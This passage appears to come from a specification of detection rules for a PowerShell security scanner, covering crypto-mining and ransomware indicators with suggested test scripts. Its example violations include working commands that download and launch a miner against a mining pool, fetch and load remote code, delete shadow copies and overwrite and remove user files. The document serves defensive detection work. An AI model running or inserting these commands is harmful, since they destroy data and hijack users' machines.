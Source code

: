 **Suggested Test Script**: `data-exfiltration.ps1`

---

### **8. PowerShell Crypto-Mining Detection**

**Priority**: Medium  
**Category**: Resource Abuse / Malware

**Description**: Detect PowerShell commands related to cryptocurrency mining malware.

**Patterns to Detect**:
- Mining pool connections (common mining pool domains/IPs)
- CPU/GPU intensive process spawning
- Mining software download and execution (XMRig, CGMiner, etc.)
- Wallet address patterns in code
- Stratum protocol usage
- High CPU priority processes launched by PowerShell

**Example Violations**:
```powershell
# Mining software download and execution
$minerUrl = "https://github.com/xmrig/xmrig/releases/download/v6.0.0/xmrig-6.0.0-linux-x64.tar.gz"
Invoke-WebRequest -Uri $minerUrl -OutFile "$env:TEMP\miner.tar.gz"
Start-Process -FilePath "$env:TEMP\miner\xmrig.exe" -ArgumentList "--donate-level 1 -o pool.minexmr.com:4444 -u WALLET_ADDRESS"

# In-memory mining
$miningCode = (New-Object Net.WebClient).DownloadString('http://coinhive.com/lib/coinhive.min.js')
Add-Type -TypeDefinition $miningCode
```

**Suggested Test Script**: `crypto-mining-detection.ps1`

---

### **9. PowerShell Ransomware Indicators**

**Priority**: Critical  
**Category**: Malware / Data Destruction

**Description**: Detect PowerShell commands indicative of ransomware behavior.

**Patterns to Detect**:
- Recursive file encryption patterns
- File extension modifications (bulk rename operations)
- Volume Shadow Copy deletion: `vssadmin delete shadows`
- Backup deletion commands
- Ransom note file creation patterns
- Mass file operations across network shares
- System restore point deletion

**Example Violations**:
```powershell
# Shadow copy deletion
vssadmin delete shadows /all /quiet
wmic shadowcopy delete

# Recursive file encryption simulation
Get-ChildItem -Path "C:\Users" -Recurse -File | ForEach-Object {
    $content = Get-Content $_.FullName -Raw -ErrorAction SilentlyContinue
    if ($content) {
        $encrypted = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($content))
        Set-Content -Path "$($_.FullName).encrypted" -Value $encrypted
        Remove-Item $_.FullName -Force
    }
}

```